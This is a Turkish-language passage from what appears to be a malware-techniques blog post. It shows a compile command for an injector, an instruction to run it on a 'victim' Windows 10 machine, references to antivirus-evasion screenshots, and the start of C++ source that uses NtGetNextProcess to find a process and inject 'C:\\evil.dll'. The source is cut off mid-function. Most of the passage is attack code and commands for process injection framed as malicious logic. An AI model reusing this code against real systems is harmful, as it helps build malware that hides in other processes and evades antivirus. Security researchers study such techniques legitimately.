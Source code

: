 ### demo

Tamam, şimdi bu tekniği çalışırken görelim.    

Öncelikle kodumuzu derleyelim (`hack.cpp`):    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive -lpsapi -lshlwapi
```

![av-evasion](./images/97/2023-05-25_23-51.png){width="80%"}      

Daha sonra, kurbanın makinesinde (`Windows 10 22H2 x64`) çalıştırın:     

```powershell
.\hack.exe <process>
```

![av-evasion](./images/97/2023-05-26_01-03.png){width="80%"}      

Gördüğünüz gibi, beklendiği gibi mükemmel çalıştı :) =^..^=    

### pratik örnek 2: bul ve enjekte Et


Şimdi kötü amaçlı bir mantık içeren başka bir örneğe geçelim. Süreç adını kullanarak Process ID (PID) bulalım ve ona bir DLL enjekte edelim.     

Kaynak kodu, [önceki](https://cocomelonc.github.io/pentest/2021/09/29/findmyprocess.html) paylaşımıma benzer. Tek fark, `findMyProc` fonksiyonunun mantığında (`hack2.cpp`):     

```cpp
/*
 * hack2.cpp - find process ID
 * by NtGetNextProcess and
 * DLL inject. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2023/05/26/malware-tricks-30.html
*/
#include <windows.h>
#include <stdio.h>
#include <winternl.h>
#include <psapi.h>
#include <shlwapi.h>

#pragma comment(lib, "ntdll.lib")
#pragma comment(lib, "shlwapi.lib")

char evilDLL[] = "C:\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

typedef NTSTATUS (NTAPI * fNtGetNextProcess)(
  _In_ HANDLE ProcessHandle,
  _In_ ACCESS_MASK DesiredAccess,
  _In_ ULONG HandleAttributes,
  _In_ ULONG Flags,
  _Out_ PHANDLE NewProcessHandle
);

int findMyProc(const char * procname) {
  int pid = 0;
  HANDLE current = NULL;
  char procName[MAX_PATH];

```